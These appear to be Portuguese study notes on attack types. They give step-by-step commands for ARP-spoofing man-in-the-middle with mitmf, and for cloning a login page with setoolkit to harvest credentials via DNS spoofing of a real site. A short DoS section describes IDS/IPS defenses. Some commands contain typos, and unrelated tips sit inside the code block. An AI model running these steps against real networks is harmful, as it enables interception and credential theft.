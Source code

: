 ## Tipos de Ataques

#Man_In_the_Middle (MITM):
      * O ataque Man In The Middle consiste em explorar a forma sem estado (stateless) na qual o protocolo ARP trabalha. Dessa forma, um Hacker pode usar de ferramentas para enviar respostas desse protocolo com o intuito de manipular a tabela ARP de suas vítimas para ficar assim no meio da comunicação e visualizar o que é trafegado entre os dispositivos manipulados.
        $ apt-get-install mitmf  => no kali linux
        $ mitmf --arp --spoof --target [IP vítima] --gateway [IP roteador] -i [interface]    => ex: mitm --arp --spoof --target 192.168.121.171 --gateway 192.168.121.1 -i eth0
        $ arp - a           => no pc da vítima antes e depois do ataque, veremos que o endereço MAC foi alterado


#DNS_Spoofing:
      * O ataque de DNS Spoofing consiste em alterar a tradução entre URL e endereço IP para que essa url seja redirecionada a um endereço IP de controle do Hacker.
      * A ferramenta setoolkit é capaz de mandar emails para vítimas com nomes de outras pessoas. Dessa forma, ao passarmos um link com nome de outra pessoa, um usuário comum se tornará vulnerável ao ataque, uma vez que a mensagem parece ter sido enviada por um usuário confiável. No arquivo harvester que está no diretório /var/www/html deveremos ver o usuário e senha que digitamos.
```
$ git clone https://gitbub.com/trustedsec/social-engineer-toolkit.git  => no kali linux, baixamos uma ferramenta capaz de clonar páginas da web.
$ cd social-engineer-toolkit/
$ ./setoolkit
yes
set>1
set>2
set:webattack>3
/var/www/html  => site clonado estará aqui
$ cd /etc/mitmf
$ getit mitmd.conf
$ *.alura.com.br=192.168.121.172  => redirecionar o site da alura para aquele ip que contem a página clonada
$ mitmf --arp --spoof --target [IP vítima] --gateway [IP roteador] -i [interface] --dns   => ex: mitmf --arp --spoof --target 192.168.121.171 --gateway 192.168.121.1 -i eth0 --dns
Ver: https://anonymousemail.me/]
* Quando forçamos o redirecionamento para uma página de nosso controle, mesmo que um usuário mal intencionado tente mudar o redirecionamento, ele não terá sucesso. Podemos, por exemplo colocar em nossa programação, algo como:
$ response.sendRedirect("http://www.meusite.com.br");
Ao invés de:
$ response.sendRedirect(request.getParameter("url"));
! Existem casos que por questão estratégica e de otimização, não queremos que certas páginas sejam indexadas em mecanismos de buscas. Dessa forma, precisamos informar a esses mecanismos de busca quais são as páginas de nosso site que não queremos que seja indexada e isso é feito através do arquivo robots.txt. Portanto, o robots.txt seria um arquivo no qual informamos como os mecanismos de busca devem indexar as páginas de nosso site. 
```

#DoS ( #Denial_of_Service):
      * Um ataque de negação de serviço ou em inglês Denial Of Service (DoS) ocorre quando temos um usuário que utiliza de recursos para causar uma sobrecarga em um sistema com o principal objetivo de torná-lo indisponível para outros usuários.
      * Equipamentos que temos nas redes são por exemplo o Intrusion Detection System (IDS) que recebe cópias desse tráfego e caso alguma anomalia seja detectada, o equipamento manda alarmes para que assim os administradores da rede possam saber o ocorrido e procurar uma solução. Outra solução seria a utilização de equipamentos como o Intrusion Prevention System (IPS) que é capaz de detectar anomalias no tráfego e impedir que esse tráfego seja propagado para outros pontos da rede.
      * O Intrusion Detection System (IDS) recebe apenas cópias dos tráfego, dessa forma, ele não é capaz de impedir que um ataque seja propagado para outros pontos da nossa rede. Ele irá encaminhar alarmes para que possamos assim saber dos problemas que foram detectados e encontrar soluções.